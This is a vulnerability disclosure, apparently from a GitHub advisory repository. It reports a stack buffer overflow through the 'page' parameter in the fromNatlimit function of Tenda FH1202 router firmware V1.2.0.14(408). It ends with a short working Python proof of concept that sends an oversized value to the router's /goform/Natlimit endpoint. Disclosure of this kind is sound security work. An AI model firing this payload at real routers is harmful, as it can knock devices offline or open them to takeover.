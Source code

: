 # Tenda FH1202 fromNatlimit
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromNatlimit function.
### Vulnerability details
In function fromNatlimit line 10, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/6.png)
